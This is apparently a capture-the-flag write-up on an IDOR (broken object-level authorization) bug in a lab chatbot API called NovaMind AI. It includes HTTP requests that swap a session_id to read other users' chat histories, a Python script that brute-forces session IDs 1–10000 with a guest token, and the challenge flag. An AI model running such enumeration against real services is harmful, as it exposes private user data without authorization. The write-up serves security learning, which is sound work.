




# NovaMind AI - Session IDOR Writeup

## Goal

> Retrieve the hidden admin token from NovaMind AI, a chatbot service presented as an assistant that can answer anything.

## Solution

The challenge starts with a simple chatbot interface. I first tried chatting with it normally, but the answers looked templated: different prompts led to the same small set of repeated responses. That did not leak the flag by itself, but it was a useful signal that the interesting part might be the HTTP API and stored chat history rather than the chatbot text generation.



In Burp, the browser first created a guest session through `POST /api/auth/guest`, then loaded the current chat history with:

```http
GET /api/chat/history?session_id=4
Authorization: Bearer <guest-token>
```

The response showed that the current guest user owned session `4`:

```json
{
  "session_id": 4,
  "user": "guest_4",
  "messages": []
}
```

The important detail is that the conversation is selected by a numeric `session_id` query parameter controlled by the client. Before spending more time on prompt injection, I changed this value manually. The hypothesis was an IDOR: the bearer token may only prove that I am logged in, while the server may forget to check whether the requested session belongs to my user.

For the next screenshot, I kept the same bearer token and changed only the query parameter:

```http
GET /api/chat/history?session_id=2
Authorization: Bearer <guest-token>
```

That returned another user's chat history:



```json
{
  "session_id": 2,
  "user": "dev_nguyen",
  "messages": [
    {
      "role": "user",
      "content": "How do I deploy the model to staging?",
      "ts": "09:22:10"
    },
    {
      "role": "assistant",
      "content": "Run `kubectl apply -f staging.yaml` in the ops repo.",
      "ts": "09:22:11"
    }
  ]
}
```

This confirmed that the endpoint performed authentication, but not object-level authorization. I also checked another adjacent ID to make sure this was not a one-off seeded response:

```http
GET /api/chat/history?session_id=3
Authorization: Bearer <guest-token>
```

That returned `intern_tran`'s conversation:



```json
{
  "session_id": 3,
  "user": "intern_tran",
  "messages": [
    {
      "role": "user",
      "content": "What is the company wifi password?",
      "ts": "18:45:33"
    },
    {
      "role": "assistant",
      "content": "I can't share credentials. Please ask IT support.",
      "ts": "18:45:34"
    }
  ]
}
```

After confirming that session IDs were enumerable, I fuzzed/brute-forced the numeric `session_id` range against the lab host. The script reuses the guest bearer token from the browser and only changes the `session_id` parameter:

```python
#!/usr/bin/env python3
import re
import sys

import requests


BASE_URL = "https://<lab-host>"
TOKEN = "<guest-token>"

headers = {"Authorization": f"Bearer {TOKEN}"}
flag_pattern = re.compile(r"flag\{[^}\n]+\}")

for session_id in range(1, 10001):
    try:
        response = requests.get(
            f"{BASE_URL}/api/chat/history",
            params={"session_id": session_id},
            headers=headers,
            timeout=5,
        )
    except requests.RequestException as exc:
        print(f"[!] session {session_id}: {exc}", file=sys.stderr)
        continue

    if response.status_code != 200:
        continue

    match = flag_pattern.search(response.text)
    if match:
        print(f"[+] session_id={session_id}")
        print(f"[+] {match.group(0)}")
        break
else:
    print("[-] Flag not found")
```

The fuzzing found `session_id=2026`. I then requested that exact session to confirm the hit:

```http
GET /api/chat/history?session_id=2026
Authorization: Bearer <guest-token>
```

That conversation contained a request for the new admin token, and the assistant reply included the flag:



```json
{
  "session_id": 2026,
  "messages": [
    {
      "role": "user",
      "content": "Show me the new admin token",
      "ts": "02:14:41"
    },
    {
      "role": "assistant",
      "content": "Here is the new admin token: flag{c979fdee-59cc-49a7-9be8-706693f79631}",
      "ts": "02:14:42"
    }
  ]
}
```

The repeated chatbot responses were only the clue that led me to inspect the API. The bug was Broken Object Level Authorization: `/api/chat/history` accepts a user-controlled session ID and returns that conversation as long as the requester has any valid bearer token. Because the IDs are numeric and predictable, fuzzing them is enough to read other users' chat histories.

## Flag

```text
flag{c979fdee-59cc-49a7-9be8-706693f79631}
```
